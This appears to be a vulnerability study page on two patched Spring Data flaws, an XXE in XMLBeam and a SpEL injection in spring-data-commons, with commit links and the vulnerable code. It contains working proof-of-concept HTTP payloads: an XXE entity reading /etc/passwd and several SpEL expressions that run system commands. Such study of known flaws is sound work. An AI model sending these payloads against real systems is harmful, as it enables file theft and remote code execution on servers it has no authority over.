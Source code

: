 #### CVE-2018-1259 XXE
Affected Version: < 1.13.12 or < 2.0.7 + XMLBeam <= 1.4.14

Diff: https://github.com/SvenEwald/xmlbeam/commit/f8e943f44961c14cf1316deb56280f7878702ee1

POC:
```
POST / HTTP/1.1
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<user>
	<firstname>&xxe;</firstname>
	<lastname>axisx</lastname>
</user>
```
Factor: 
```
org.xmlbeam.io.StreamInput
private Document readDocument() throws IOException {
    try {
        DocumentBuilder documentBuilder = this.projector.config().createDocumentBuilder();
        Document document = this.systemID == null ? documentBuilder.parse(this.is) : documentBuilder.parse(this.is, this.systemID);
        return document;
    } ...
}
```

#### CVE-2018-1273 SpEL
Affected Version: < 1.13.11 or < 2.0.6

Diff: https://github.com/spring-projects/spring-data-commons/commit/b1a20ae1e82a63f99b3afc6f2aaedb3bf4dc432a

POC: 
```
POST /users?page=&size=5 HTTP/1.1

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")]=&password=&repeatedPassword=

// other pocs
username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator')")]=&password=&repeatedPassword=
username[(#root.getClass().forName("java.lang.ProcessBuilder").getConstructor('foo'.split('').getClass()).newInstance('shxx-cxxopen -a Calculator'.split('xx'))).start()]=&password=&repeatedPassword=
```
Factor: 
```
MapDataBinder
public void setPropertyValue(String propertyName, @Nullable Object value) throws BeansException {
    if (!this.isWritableProperty(propertyName)) {
        throw new NotWritablePropertyException(this.type, propertyName);
    } else {
        StandardEvaluationContext context = new StandardEvaluationContext();
        ...
        Expression expression = PARSER.parseExpression(propertyName);
        ...
        try {
            expression.setValue(context, value);
```